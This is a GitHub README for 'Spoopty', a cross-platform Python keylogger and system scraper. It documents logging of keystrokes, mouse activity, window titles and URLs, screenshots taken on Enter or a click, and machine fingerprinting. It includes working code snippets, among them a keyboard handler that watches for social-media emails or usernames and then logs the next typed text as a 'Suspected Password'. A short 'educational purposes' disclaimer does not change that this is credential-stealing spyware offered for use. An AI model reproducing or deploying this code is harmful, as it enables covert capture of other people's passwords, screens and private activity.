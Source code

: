 # Spoopty Keylogger and System Scraper

## Description

Spoopty is a keylogger and system monitor that logs keyboard inputs, mouse movements, mouse clicks, and mouse scrolls along with the corresponding window information, process names, and URLs. It also captures screenshots when specific events occur, such as pressing the Enter key or clicking the left mouse button. The script is designed to work on Windows, macOS, and Linux operating systems.

## Variable Definitions

- `os_name`: The name of the operating system (e.g., Windows, Darwin, Linux).
- `current_datetime`: The current date and time formatted as "YYYY-MM-DD_HH-MM-SS".
- `log_file`: The path to the log file where the captured information will be stored.
- `active_window`: The currently active window information.
- `active_url`: The URL of the currently active window.
- `suspected_password`: The suspected password captured during the password entry process.
- `password_entry_started`: A flag indicating whether the password entry process has started.

## Installation

1. Clone the repository or download the script file.
2. Install the required dependencies by running the following command:
   ```
   pip install -r requirements.txt
   ```

## Architecture Overview

The script consists of the following main components:

1. **Logging Configuration**: The script configures the logging system to store the captured information in a log file named `Logs/{os_name}_{current_datetime}.log`.

2. **Machine Information**: The script retrieves various machine information such as operating system details, network type, user account, drive mappings, and more. This information is logged at the start of the script.

3. **Webpage Source Retrieval**: The script provides functions to retrieve the source code of a webpage using either the `requests` library or platform-specific methods.

4. **Input Name Extraction**: The script analyzes the webpage source to extract the names of input fields and buttons based on the cursor position.

5. **Screenshot Capture**: The script captures screenshots of each monitor when specific events occur, such as pressing the Enter key or clicking the left mouse button. The screenshots are saved in the "Screen Captures" directory.

6. **Social Media URL Detection**: The script checks if a URL belongs to a social media platform based on a predefined list of social media URLs.

7. **Keyboard and Mouse Monitoring**: The script uses the `pynput` library to monitor keyboard and mouse events. It logs the captured information along with the corresponding window information, process names, and URLs.

## Usage Examples

1. Run the script using the following command:
   ```
   python spoopty.py
   ```

2. The script will start monitoring keyboard and mouse events and capturing relevant information.

3. The captured information will be logged in the `Logs/{os_name}_{current_datetime}.log` file.

4. Screenshots will be captured when specific events occur and saved in the "Screen Captures" directory.

5. To stop the script, press `Ctrl+C` in the terminal or command prompt.

## Function Descriptions

- `get_machine_info()`: Retrieves various machine information such as operating system details, network type, user account, drive mappings, and more.
- `log_machine_info()`: Logs the machine information at the start of the script.
- `get_webpage_source(url)`: Retrieves the source code of a webpage using either the `requests` library or platform-specific methods.
- `get_input_name(url, x, y)`: Analyzes the webpage source to extract the name of an input field or button based on the cursor position.
- `get_window_info()`: Retrieves information about the currently active window (not available on all operating systems).
- `take_screenshot(process_name)`: Captures screenshots of each monitor and saves them in the "Screen Captures" directory.
- `is_social_media_url(url)`: Checks if a URL belongs to a social media platform based on a predefined list of social media URLs.
- `extract_social_media_info(text)`: Extracts email addresses and social media usernames from the provided text using regular expressions.
- `on_press(key)`: Callback function triggered when a key is pressed.
- `on_release(key)`: Callback function triggered when a key is released.
- `on_move(x, y)`: Callback function triggered when the mouse is moved.
- `on_click(x, y, button, pressed)`: Callback function triggered when a mouse button is clicked.
- `on_scroll(x, y, dx, dy)`: Callback function triggered when the mouse is scrolled.

## Legal and Ethical Disclaimer

This script is provided for educational and informational purposes only. The use of keyloggers and monitoring tools may be subject to legal restrictions and ethical considerations. It is the responsibility of the user to ensure compliance with all applicable laws and regulations and to obtain proper authorization before using this script.

The authors and contributors of this script are not liable for any misuse, damage, or legal consequences arising from the use of this script. By using this script, you acknowledge and agree that you are solely responsible for your actions and any consequences that may result from using this script.

Please use this script responsibly and respect the privacy and rights of others.

## Code Snippets

Here are a few relevant code snippets from the script:

1. Logging configuration:
   ```python
   log_file = f'Logs/{os_name}_{current_datetime}.log'
   logging.basicConfig(filename=log_file, level=logging.INFO, format='%(asctime)s - %(message)s')
   ```

2. Retrieving machine information:
   ```python
   def get_machine_info():
       info = []
       info.append(f"Operating System: {platform.system()} {platform.release()}")

       if psutil:
           info.append(f"Network Type: {psutil.net_if_stats()}")
           info.append(f"User Account: {psutil.users()[0].name}")
           info.append(f"User Access Level: {psutil.Process().username()}")
           info.append(f"Drive Mappings: {psutil.disk_partitions()}")
           info.append(f"Drive Names: {[i.mountpoint for i in psutil.disk_partitions()]}")

       info.append(f"Domain: {socket.getfqdn()}")
       info.append(f"IPv4: {socket.gethostbyname(socket.gethostname())}")
       info.append(f"MAC Address: {':'.join(c + d for c, d in zip(*[iter(hex(uuid.getnode())[2:].zfill(12))]*2))}")

       return '\n'.join(info)
   ```

3. Capturing screenshots:
   ```python
   def take_screenshot(process_name):
       timestamp = datetime.now().strftime("%Y-%m-%d_%H-%M-%S")
       screenshot_dir = "Screen Captures"
       os.makedirs(screenshot_dir, exist_ok=True)

    with mss.mss() as sct:
        for i, monitor in enumerate(sct.monitors[1:], start=1):
            screenshot_name = f"{screenshot_dir}/{timestamp}_{process_name}_monitor{i}.png"
            sct.shot(mon=i, output=screenshot_name)
   ```

4. Keyboard and mouse monitoring:
   ```python
   def on_press(key):
       global active_window, active_url, suspected_password, password_entry_started
       
       window_info = get_window_info()
       process_name = window_info.split(' - ')[1] if ' - ' in window_info else 'unknown'
       log_entry = f'Key pressed: {key} - Process: {process_name} - Window Info: {window_info}'

       if isinstance(key, keyboard.KeyCode):
           emails, usernames = extract_social_media_info(key.char)
           if emails:
               log_entry += f' - Social Media Email(s): {", ".join(emails)}'
               active_window = window_info
               active_url = window_info.split(' - URL:')[-1].strip() if ' - URL:' in window_info else ''
               password_entry_started = True
               suspected_password = ''
           if usernames:
               log_entry += f' - Social Media Username(s): {", ".join(usernames)}'
               active_window = window_info
               active_url = window_info.split(' - URL:')[-1].strip() if ' - URL:' in window_info else ''
               password_entry_started = True
               suspected_password = ''
           
           if password_entry_started:
               if key == keyboard.Key.enter:
                   log_entry += f' - Suspected Password: [{suspected_password}]'
                   password_entry_started = False
               elif key == keyboard.Key.backspace:
                   suspected_password = suspected_password[:-1]
               else:
                   suspected_password += key.char
       
       log_entry = f'[Keyboard Input] {log_entry}'
       logging.info(log_entry)

       if key == keyboard.Key.enter:
           take_screenshot(process_name)
   ```

Please refer to the script file for the complete code and implementation details.
